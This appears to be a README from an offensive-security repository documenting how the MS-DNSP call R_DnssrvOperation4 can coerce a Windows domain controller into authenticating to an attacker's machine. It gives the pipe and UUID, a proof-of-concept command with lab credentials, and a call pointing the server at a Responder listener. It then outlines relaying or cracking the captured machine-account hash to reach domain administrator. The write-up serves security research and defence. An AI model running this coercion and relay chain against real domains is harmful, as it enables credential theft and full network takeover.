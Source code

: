 # MS-DNSP - Remote call to R_DnssrvOperation4 (opnum 15)

## Summary

 - **Protocol**: [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a)

 - **Protocol UUID**: 50abc2a4-574d-40b3-9d66-ee4fd5fba076

 - **Protocol version**: 0.0

 - **SMB Named pipe**: `\PIPE\DNSSERVER`

 - **Function name**: [`R_DnssrvOperation4`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/e5a835ad-8ade-4be3-b97b-a80634800f8d)

 - **Function operation number**: `15`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\DNSSERVER` and bind to the desired [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol (with uuid `50abc2a4-574d-40b3-9d66-ee4fd5fba076` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\DNSSERVER` This pipe is connected to the protocol [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) and allows to call RPC functions of this protocol. We will then call the remote [`R_DnssrvOperation4`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/e5a835ad-8ade-4be3-b97b-a80634800f8d) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_DnssrvOperation4('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
LONG R_DnssrvOperation4(
      [in]                       handle_t            hBindingHandle,
      [in]                       DWORD               dwClientVersion,
      [in]                       DWORD               dwSettingFlags,
      [in, unique, string]       LPCWSTR             pwszServerName,
      [in, unique, string]       LPCWSTR             pwszVirtualizationInstanceID,
      [in, unique, string]       LPCSTR              pszZone,
      [in, unique, string]       LPCWSTR             pwszZoneScopeName,
      [in]                       DWORD               dwContext,
      [in, unique, string]       LPCSTR              pszOperation,
      [in]                       DWORD               dwTypeId,
      [in, switch_is(dwTypeId)]  DNSSRV_RPC_UNION    pData
    );
```

## References

 - Documentation of protocol [MS-DNSP]: Domain Name Service (DNS) Server Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a

 - Documentation of function `R_DnssrvOperation4`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/e5a835ad-8ade-4be3-b97b-a80634800f8d